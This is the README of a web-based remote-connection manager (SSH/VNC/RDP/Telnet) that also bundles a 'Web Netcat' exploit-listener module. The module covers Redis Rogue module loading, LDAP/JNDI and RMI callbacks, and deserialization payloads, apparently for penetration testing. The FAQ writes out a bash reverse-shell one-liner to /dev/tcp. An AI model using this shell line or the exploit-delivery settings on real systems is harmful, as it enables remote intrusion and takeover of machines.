docker push hktalent/remote-connect-manager:20261118
```

宿主机连不上 Docker Hub（`registry-1.docker.io` 超时 / 被 reset）时，`docker push` 会失败——推送由 dockerd 发起，不读命令行里的代理环境变量。可绕开守护进程，导出镜像后用 `crane` 经 SOCKS 代理直推：

```bash
docker save remote-connect-manager:latest | gzip -1 > /tmp/rcm-image.tar.gz
gunzip -c /tmp/rcm-image.tar.gz > /tmp/rcm-image.tar      # crane 需要未压缩的 OCI tar

HTTPS_PROXY=socks5://127.0.0.1:1081 ALL_PROXY=socks5://127.0.0.1:1081 \
  crane push /tmp/rcm-image.tar hktalent/remote-connect-manager:latest
HTTPS_PROXY=socks5://127.0.0.1:1081 \
  crane tag hktalent/remote-connect-manager:latest 20261118
```

- 推之前先确认凭据：`crane auth login docker.io -u hktalent`（或沿用 Docker Desktop 已登录的 `~/.docker/config.json`）；可用 `docker-credential-desktop list` 确认 docker.io 条目是否真的存在。
- 只验通链路不看凭据时，`curl --socks5-hostname 127.0.0.1:1081 -o /dev/null -w '%{http_code}' https://registry-1.docker.io/v2/` 返回 `401` 即说明出口可用。

已发布到 Docker Hub（`linux/amd64`，digest `sha256:6a7c9611…`），可直接拉取运行：

```bash
docker pull hktalent/remote-connect-manager:latest          # 或 :20261118

docker run -d --name remote-connect-manager \
  -p 8088:8080 \
  -p 8888:8888 -p 6379:6379 -p 1389:1389 -p 8090:8090 -p 1099:1099 \
  -e NETCAT_PUBLIC_HOST=192.168.0.135 \
  -v "$PWD/data:/app/data" \
  hktalent/remote-connect-manager:latest
```

> 单容器启动只有 SSH / VNC / Web Netcat 可用；RDP / Telnet 还需要一个 `guacd`（`docker run -d -p 4822:4822 guacamole/guacd:1.5.5`，并设 `GUACD_ADDR`），用 compose 更省事。

## 使用

### 1. 用 docker compose 启动（推荐）

```bash
cd remote-connect-manager
docker compose up -d --build
```

启动后访问：<http://localhost:8088>

compose 会拉起两个容器：

- `remote-connect-manager`：主服务，宿主机 `8088` → 容器 `8080`。
- `rcm-guacd`：`guacamole/guacd:1.5.5`，供 RDP / Telnet 使用。

默认挂载与参数（见 [docker-compose.yml](docker-compose.yml)）：

| 项 | 说明 |
| --- | --- |
| `./data:/app/data` | 配置、密钥、截图持久化到宿主机 |
| `${HOME}/.ssh:/host-ssh:ro` | 只读挂载宿主机 SSH 目录，启动时自动导入私钥 |
| `./data/rdp-drive:/tmp/rcm-drive` | 两个容器共用，RDP 共享盘落地目录（浏览器显示下载的文件都在这） |
| `PORT=8080` | 容器内监听端口 |
| `GUACD_ADDR=guacd:4822` | RDP / Telnet 使用的 guacd 地址 |
| `NETCAT_PUBLIC_HOST` | Web Netcat 种子监听里 LDAP `javaCodeBase` 的对外主机，取自 `.env`（默认 `127.0.0.1`，打靶时改成目标机能访问的 IP） |
| `8888 / 6379 / 1389 / 8090 / 1099` | 内置 exp 监听：反弹 shell / Redis Rogue / LDAP-JNDI / JNDI CodeBase / RMI，换端口时两边同步改 |
| `9000-9010` | Web Netcat 通用监听区间，自己新建的监听只有落在这个区间（或照样补映射）才能从宿主机访问 |
| `host.docker.internal:host-gateway` | 让容器能访问宿主机上的虚拟机 / 端口转发 |

改端口只需改 compose 里的 `"8088:8080"` 左侧，例如 `"9090:8080"`。

### 2. 独立运行（Windows / macOS / Linux，免 Docker）

到 [Releases](https://github.com/hktalent/remote-connect-manager/releases) 下载对应平台的包，解压后在**同一个目录**里运行（配置、密钥、截图默认写在当前目录的 `data/`）：

**macOS / Linux**

```bash
tar -xzf remote-connect-manager_<版本>_<平台>_<架构>.tar.gz
chmod +x remote-connect-manager
./remote-connect-manager              # 默认 :8080
PORT=9090 ./remote-connect-manager    # 换端口
```

> macOS 首次运行若提示「无法验证开发者」，右键 → 打开，或执行 `xattr -d com.apple.quarantine ./remote-connect-manager`。

**Windows**

```powershell
# 解压 zip 后，在解压目录打开 PowerShell
.\remote-connect-manager.exe
# 换端口
$env:PORT=9090; .\remote-connect-manager.exe
```

打开 <http://127.0.0.1:8080> 即可使用。

独立运行的注意事项：

- **数据目录跟随工作目录**：`data/connections.db`、`data/keys/`、`data/screenshots/` 都相对于启动时的当前目录。建议在固定目录里启动（Windows 快捷方式需设置「起始位置」），迁移时拷 `data/` 即可。
- **密钥来源**：会自动扫描 `$HOME/.ssh`（Windows 为 `C:\Users\<你>\.ssh`）；想扫描其它目录用 `SSH_SCAN_DIR` 指定。
- **RDP 依赖 guacd**：SSH / VNC 开箱可用，RDP 需要本机或局域网内有 `guacd`：

```bash
docker run -d --name guacd -p 4822:4822 guacamole/guacd:1.5.5   # 只需这一个容器
GUACD_ADDR=127.0.0.1:4822 ./remote-connect-manager
```

- **生产环境**建议关闭 Gin 调试输出：`GIN_MODE=release ./remote-connect-manager`。
- 版本号来自编译期注入，启动日志第一行会打印（如 `remote-connect-manager v1.0.0`）。

### 3. 配置一条连接

1. 点右上角「+ 新建连接」，选择类型（SSH / VNC / RDP / Telnet），填主机、端口、用户名。
2. SSH 选「密钥」认证并挑一把密钥；私钥带口令的话在密码栏填口令。VNC / RDP / Telnet 直接填密码。
3. 保存后点击卡片即可连接。终端里正常操作，窗口大小变化会同步到远端。
4. 想切回卡片视图点 `↘`（会话不中断），想结束会话点 `✕`（关闭后卡片背景自动更新为该会话最后一屏）。

### 4. 密钥

点右上角「密钥管理」：

- 「扫描 ~/.ssh」重新扫描并导入新密钥；
- 「生成新密钥」按名称生成一对新密钥；
- 每个密钥可「复制公钥」（粘到目标机器 `~/.ssh/authorized_keys`）、「编辑」（改名 / 改内容）、「删除」。

密钥文件实际存放在 `data/keys/`，来源目录可通过环境变量 `SSH_SCAN_DIR` 指定（默认依次尝试 `/host-ssh`、`$HOME/.ssh`）。

## 环境变量

| 变量 | 默认值 | 说明 |
| --- | --- | --- |
| `PORT` | `8080` | HTTP 监听端口 |
| `GUACD_ADDR` | `127.0.0.1:4822` | guacd 地址，RDP 使用 |
| `SSH_SCAN_DIR` | `/host-ssh` → `$HOME/.ssh` | 密钥扫描目录 |
| `NETCAT_PUBLIC_HOST` | `127.0.0.1` | Web Netcat 生成 LDAP `javaCodeBase` 用的对外地址（目标机能访问到的本机 IP） |
| `NETCAT_PAYLOAD_SEED` | 可执行文件旁的 `payloads/` | 内置 payload 的种子目录，首次启动复制到 `data/netcat-payloads/`（已存在不覆盖） |

## 配置说明

### 数据目录

所有运行时数据都在启动目录的 `data/` 下（Docker 部署时对应容器内 `/app/data`）：

```
data/
├── connections.db        # 连接配置，实际是 JSON 数组（不是 SQLite）
├── keys/                 # 密钥库
│   ├── id_rsa            # 私钥（文件名即密钥名）
│   ├── id_rsa.pub        # 公钥
│   └── .manifest.json    # 密钥来源记录：{ "id_rsa": "/Users/you/.ssh/id_rsa" }
├── screenshots/          # 卡片背景图：<连接ID>_<纳秒时间戳>.jpg|png（每连接只保留最新一张）
├── netcat.json           # Web Netcat 监听配置（端口、模式、规则、自动命令集）
├── netcat-payloads/      # 规则 / CodeBase 引用的 payload（启动时从仓库 payloads/ 自动灌入）
```

项目根 `payloads/` 是随镜像发布的载荷源（`exp.so`、`Exploit.class`、`spark-rce.jar`、`cc1/cc6/cc9/cb1` 等），见「内置 Exp Payload」。


### 连接配置（`data/connections.db`）

每次请求都会重新读取该文件，因此**直接编辑 JSON 也能生效**（改完刷新页面即可，无需重启）。格式：

```json
[
  {
    "id": "0b6f3c1e-9a2d-4b7c-8f10-3d1a2b3c4d5e",
    "name": "戴尔kali",
    "type": "ssh",
    "host": "192.168.0.121",
    "port": 22,
    "username": "root",
    "auth_type": "key",
    "key_name": "id_ed25519",
    "width": 0,
    "height": 0,
    "screenshot": "/screenshots/0b6f...jpg",
    "created_at": "2026-11-16T13:37:00+08:00",
    "updated_at": "2026-11-16T13:37:00+08:00",
    "last_connect": "2026-11-16T21:56:51+08:00"
  }
]
```

| 字段 | 说明 |
| --- | --- |
| `id` | UUID，新建时自动生成 |
| `name` | 卡片显示名 |
| `type` | `ssh` / `vnc` / `rdp` / `telnet` |
| `host` / `port` | 目标地址；RDP 默认 3389，VNC 5900，SSH 22，Telnet 23 |
| `username` | 登录用户（VNC 可留空） |
| `auth_type` | `key` 或 `password`（SSH 生效） |
| `key_name` | 引用 `data/keys/` 下的密钥名；私钥带口令时口令填在 `password` |
| `password` | VNC / RDP / Telnet 密码，或 SSH 密钥口令 |
| `width` / `height` / `security` | RDP / VNC 画面参数，缺省由服务端决定（1280×720、`any`） |
| `color_depth` | RDP 色深：`24`（默认）/ `16`（推荐，省带宽）/ `8`（极速），分辨率不变只降颜色精度 |
| `vnc_quality` | VNC 画质：`high` / `medium`（默认）/ `low`，映射 noVNC 的 `qualityLevel` 与 `compressionLevel` |
| `screenshot` | 卡片背景图地址，由程序自动写入，不要手填 |

> `data/connections.db` 里可能含明文密码，请当作敏感文件保护（Docker 部署时它落在宿主机 `./data`）。

### 密钥文件

- 密钥名必须能通过文件名安全校验（字母、数字、`_`、`-`、`.`），改名会同步更新所有引用它的连接。
- 从 `~/.ssh` 扫描时：能解析的私钥会推导公钥；加密私钥（`-----BEGIN ... ENCRYPTED-----`）也会导入并标记「加密」，连接时用口令解锁；同名不同内容会加 `_<sha256前6位>` 后缀，不会覆盖已有密钥。
- `.pub` 文件、`config`、`known_hosts*`、`authorized_keys*` 会被跳过。

### 端口与运行参数

| 变量 | 默认 | 说明 |
| --- | --- | --- |
| `PORT` | `8080` | 监听端口（Docker compose 里映射为宿主机 `8088`） |
| `GUACD_ADDR` | `127.0.0.1:4822` | RDP / Telnet 使用的 guacd 地址 |
| `TUNNEL_PORT_BASE` | `20000` | SSH 端口转发可用区间起点 |
| `TUNNEL_PORT_MAX` | `20010` | SSH 端口转发可用区间终点（compose 已映射该区间） |
| `RCM_DRIVE_PATH` | `/tmp/rcm-drive` | RDP 共享盘目录（同时作为 guacd 的 `drive-path` 与本地下载源） |
| `SSH_SCAN_DIR` | `/host-ssh` → `$HOME/.ssh` | 启动时扫描导入密钥的目录 |
| `NETCAT_PUBLIC_HOST` | `127.0.0.1` | LDAP 种子监听里 `javaCodeBase` 的主机部分（`http://<HOST>:8090/`），容器里要设成目标机能访问到的宿主机 IP |
| `NETCAT_PAYLOAD_SEED` | 可执行文件旁的 `payloads/` | 内置 exp 载荷的种子目录，启动时复制进 `data/netcat-payloads/` |
| `GIN_MODE` | `debug` | 设为 `release` 关闭调试日志 |

> Web Netcat 的监听端口由每个监听自己配置（1-65535），与 `PORT` 无关；Docker 部署时需要在 compose 里把这些端口映射到宿主机，否则外部连不进来。

## API 一览

| 方法 | 路径 | 说明 |
| --- | --- | --- |
| GET | `/api/connections` | 连接列表（不含密码 / 私钥） |
| GET/POST | `/api/connections`、`/api/connections/:id` | 查询 / 新建 / 修改 / 删除配置 |
| GET/POST | `/api/connections/:id/screenshot` | 取截图地址 / 上传截图（`{"data":"data:image/jpeg;base64,..."}`） |
| GET | `/api/keys`、`/api/keys/:name`、`/api/keys/:name/public` | 密钥列表 / 私钥详情 / 公钥 |
| POST | `/api/keys/generate`、`/api/keys/import`、`/api/keys/scan` | 生成 / 导入 / 扫描密钥 |
| PUT/DELETE | `/api/keys/:name` | 编辑（含改名）/ 删除密钥 |
| GET | `/api/readme` | 项目 README（「关于」弹窗渲染用） |
| GET | `/api/sftp/:id/list?path=` | 列出远端目录 |
| GET | `/api/sftp/:id/download?path=` | 下载远端文件 |
| POST | `/api/sftp/:id/upload` | 上传文件（multipart：`file` + `path`，可选 `rel` 为相对 `path` 的目标路径，用于文件夹上传，父目录自动创建） |
| POST | `/api/sftp/:id/mkdir`、`/api/sftp/:id/remove` | 新建目录 / 删除（支持批量：`{"paths":[{"path":"/a","dir":false},…]}`，返回 `removed` / `failed`，仍兼容旧的单个 `path`） |
| GET | `/api/ssh/:id/cwd` | 该 SSH 会话的 shell 当前目录（`{"cwd":"…","known":true}`，SFTP 面板据此定位）。来源优先级：提示符里的目录 > `cd` 跟踪 > 远端 `pwd` 校正 |
| GET/POST | `/api/tunnels` | 隧道列表 / 新建（`connection_id`、`remote_host`、`remote_port`） |
| DELETE | `/api/tunnels/:id` | 关闭隧道 |
| GET | `/api/rdp-drive/list?path=` | 列出 RDP 共享盘（guacd `drive-path`）目录 |
| GET | `/api/rdp-drive/download?path=` | 下载共享盘文件（支持 Range） |
| GET/POST | `/api/netcat/listeners` | 网络监听列表（含运行状态、统计数据）/ 新建监听 |
| PUT/DELETE | `/api/netcat/listeners/:id` | 修改（运行中会重启生效）/ 删除监听 |
| POST | `/api/netcat/listeners/:id/start`、`/stop` | 启停监听 |
| GET | `/api/netcat/listeners/:id/sessions`、`/events` | 该监听的会话列表 / 事件流水 |
| GET/DELETE | `/api/netcat/sessions`、`/api/netcat/sessions/:id` | 全部会话 / 断开指定会话 |
| POST | `/api/netcat/sessions/:id/exec` | 在会话里执行命令（`{"cmd":"id"}`） |
| GET/POST/DELETE | `/api/netcat/payloads`、`/api/netcat/payloads/:name` | 列出 / 上传（multipart `file`）/ 删除 payload 文件 |
| WS | `/ws/ssh/:id?cwd=…`、`/ws/vnc/:id`、`/ws/guacamole/:id`、`/ws/telnet/:id` | SSH / VNC / RDP / Telnet 会话通道；SSH 的 `cwd` 参数已废弃（保留兼容但忽略：不会再据此 exec/注入任何命令） |
| WS | `/ws/netcat/:sessionId` | 把浏览器终端挂到某条 nc 会话（先回放历史，再双向透传） |

## 常见问题

**RDP 连不上 / 报 guacd 相关错误**：确认 `rcm-guacd` 容器在运行（`docker ps`），且 `GUACD_ADDR` 指向正确；非 Docker 部署需自行启动 `guacd`。

**RDP 卡顿 / 画面延迟**：编辑该连接，把「画质」调成 16 位或 8 位（分辨率不变），保存后**重连**生效；如果仍然卡，再考虑降低 `width`/`height` 或改善链路。默认已优先使用 WebP/JPEG 有损编码。

**VNC 卡顿**：编辑该连接，把「画质」调成「流畅」（颜色精度下降、压缩加强），重连生效。

**RDP 上传的文件在哪**：点会话工具栏的「⇪」选择文件，文件进入远端共享盘 `rcm`——Windows 在 `\\tsclient\rcm`，xrdp 在 `~/thinclient_drives/rcm`。反向下载在会话工具栏的「🖴」面板里，看到的就是同一个共享盘。

**远端复制的文本没进本地剪贴板**：HTTPS 下用 `navigator.clipboard`，HTTP 下自动降级为 `execCommand('copy')`；部分浏览器会拦截后台写入，点一下页面再复制一次即可。

**Telnet 安全性**：Telnet 无加密，账号密码明文传输，只建议在可信内网或 SSH 隧道内使用。

**隧道端口访问不到**：确认宿主机端口已映射（`docker port remote-connect-manager` 应包含 20000-20010），并检查目标端口在远端是否监听（如 `ss -lntp`）；隧道只转发 TCP。

**SSH 连上后过一会自己断开**：先看状态灯是否变红。服务端已内置 30 秒 keepalive；若仍断开，通常是目标机 `sshd` 的 `ClientAliveInterval`/`ClientAliveCountMax` 太小、或中间有设备做空闲清理（有些云 NAT 60 秒即回收），可在目标机 `/etc/ssh/sshd_config` 里加大 `ClientAliveInterval 60`、`ClientAliveCountMax 6`。断开后点工具栏 **↻** 重连即可，不需要重新建连接。

**SFTP 面板打不开或报权限错误**：SFTP 用的是连接配置里的同一账号与密钥；确认该账号有目标目录权限，且远端 sshd 未禁用 sftp 子系统（`Subsystem sftp ...`）。

**SFTP 打开后不是我 shell 里的那个目录**：先看你的提示符里是否带路径（`[/home/kali]`、`[~/work]` 都能识别）；提示符不带路径时才回退到输入里的 `cd` 跟踪，此时 `pushd`、`tmux`/`screen` 内切换、脚本里 `cd` 无法推断，会落到家目录或最近的父目录——直接在路径栏输入目标路径即可。多标签页同时连同一台机器时以最后一次 `cd`/提示符为准。

**「同步到本地」没反应 / 文件拖不出去**：两者依赖 Chromium 专有 API（File System Access、`DownloadURL`），Firefox 与 Safari 不支持，且页面必须通过 HTTPS 或 localhost 打开。拖出一次只能带一个文件，文件夹请用「同步到本地」。

**按 `Cmd+V` 粘贴没反应**：确认焦点在会话窗口内（点一下终端画面），且浏览器加载的是带版本号的最新前端；若仍无反应，强制刷新（`Cmd+Shift+R`）清掉旧缓存。配置弹窗里的输入框仍使用浏览器默认粘贴。

**终端里选中文本按 `Cmd+C` 复制不出来**：先确认文本确实被选中（有高亮）。快捷键为 macOS `Cmd+C`、Windows / Linux `Ctrl+Shift+C`；`Ctrl+C` 仍用于发送 SIGINT，不会复制。canvas 渲染的选区不是 DOM 选区，所以由前端接管写入剪贴板。

**能不能在远端复制文件后，到本地 Finder / 资源管理器里直接粘贴？**：不能。浏览器 Clipboard API 只允许写入文本和图片，无法把任意文件或文件夹放进系统剪贴板。请用文件面板的「拖出下载」或「同步到本地」。

**列表里没有我的密钥**：确认 `~/.ssh` 已只读挂载进容器，或在「密钥管理」里点「扫描 ~/.ssh」；加密私钥也能导入，但连接时需填口令。

**卡片背景一直是图标**：说明还没有成功截图，先完整连一次会话（会话中会每 10 秒更新，关闭时会立即更新）。

**端口冲突**：改 `docker-compose.yml` 中 `"8088:8080"` 的宿主机侧端口后 `docker compose up -d`。

**Web Netcat 监听显示「运行中」但外部连不进来**：Docker 部署时端口必须在 `docker-compose.yml` 的 `ports:` 里映射过（默认只有 `8888 / 6379 / 1389 / 8090 / 1099` 和 `9000-9010`），新监听换了别的端口要补一行映射；容器内 `bind` 应为 `0.0.0.0`（填 `127.0.0.1` 只有容器自己能连）。

**规则不触发 / 只触发一次**：确认规则勾了启用、`pattern` 与实际字节一致（Redis 客户端可能发大写、或带 `\r\n`，用 `hex` 或 `ignore_case` 更稳）；命中后匹配窗口会清空，同一段数据不会重复触发，`send_times` 设成 `0` 才是不限次数。

**LDAP / JNDI 注入后目标没回连**：`javaCodeBase` 里的主机不能是 `127.0.0.1`（那是目标机自己），要在 `.env` 里把 `NETCAT_PUBLIC_HOST` 设成目标机能访问到的服务端 IP，`docker compose up -d` 重建生效；同时确认对应的 `http` 监听已启动且 payload 文件确实在 `data/netcat-payloads/`。

**Redis 模块加载失败**：`exp.so` 是 x86-64 Linux ELF，目标架构不符会报 `Module load failed`；投递时规则要选 `wrap: bulk`，否则模块内容不会被当成 RDB/模块数据写入。

**反弹 shell 里终端没反应**：先用 `bash -c 'bash -i >& /dev/tcp/<IP>/<端口> 0>&1'` 验证通路，再检查是否被 `max_conns` 或自动命令集的 `wait_for` 超时卡住（`wait_for` 默认最多等 10 s，超时后也会发送）。

## 说明

本项目面向内网 / 自用场景，默认没有账号体系与 TLS。若要暴露到公网，请自行在反向代理层加认证与 HTTPS。

## License

MIT
